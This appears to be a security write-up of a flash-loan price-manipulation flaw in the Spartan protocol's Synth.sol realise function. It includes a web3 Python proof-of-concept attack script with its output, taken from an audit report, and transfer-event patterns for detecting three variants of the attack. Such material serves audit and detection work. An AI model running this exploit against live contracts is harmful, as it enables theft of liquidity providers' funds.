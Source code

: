 ## Source Code
https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L187-L199

## POMA
Synth realise function calculates baseValueLP and baseValueSynth base on AMM spot price which is vulnerable to flash loan attack. Synth's lp is subject to realise whenever the AMM ratio is different than Synth's debt ratio.

The attack does not necessarily require a flash loan. A big whale of the lp token holders could keep calling realise by shifting token ratio of AMM pool back and forth.

The vulnerability is located at Synth.sol L187-L199. Where the formula here is dangerous.


## Attack Transaction
> Borrow from the audit report directly
```
flashloan_amount = init_amount
user = w3.eth.accounts[0]
marked_token.functions.transfer(user, flashloan_amount).transact()
marked_token.functions.transfer(token_pool.address, flashloan_amount).transact({'from': user})
token_pool.functions.addForMember(user).transact({'from': user})
received_lp = token_pool.functions.balanceOf(user).call()
synth_balance_before_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
token_synth.functions.realise(token_pool.address).transact()
token_pool.functions.transfer(token_pool.address, received_lp).transact({'from': user})
token_pool.functions.removeForMember(user).transact({'from': user})
token_synth.functions.realise(token_pool.address).transact()
synth_balance_after_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
print('synth_lp_balance_after_realise', synth_balance_after_realise)
print('synth_lp_balance_before_realise', synth_balance_before_realise)
Output:

synth_balance_after_realise 1317859964829313908162
synth_balance_before_realise2063953488372093023256
```

## Transfer Event
### Variant 1 (single transaction)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, marked_token, user, token_pool, flashloan_amount
block#1, transaction#1, log#2, lp_token, token_pool, user, received_lp
block#1, transaction#1, log#3, lp_token, token_pool, 0, premiumLP
block#1, transaction#1, log#4, lp_token, user, token_pool, received_lp
block#1, transaction#1, log#5, marked_token, user, token_pool, flashloan_amount
```
### Variant 2 (separate transaction, same block)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, marked_token, user, token_pool, flashloan_amount
block#1, transaction#1, log#2, lp_token, token_pool, user, received_lp
block#1, transaction#2, log#1, lp_token, token_pool, 0, premiumLP
block#1, transaction#3, log#1, lp_token, user, token_pool, received_lp
block#1, transaction#3, log#2, marked_token, user, token_pool, flashloan_amount
```

### Variant 3 (separate transaction, separate block)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, marked_token, user, token_pool, flashloan_amount
block#1, transaction#1, log#2, lp_token, token_pool, user, received_lp
block#2, transaction#2, log#1, lp_token, token_pool, 0, premiumLP
block#3, transaction#3, log#1, lp_token, user, token_pool, received_lp
block#3, transaction#3, log#2, marked_token, user, token_pool, flashloan_amount
```
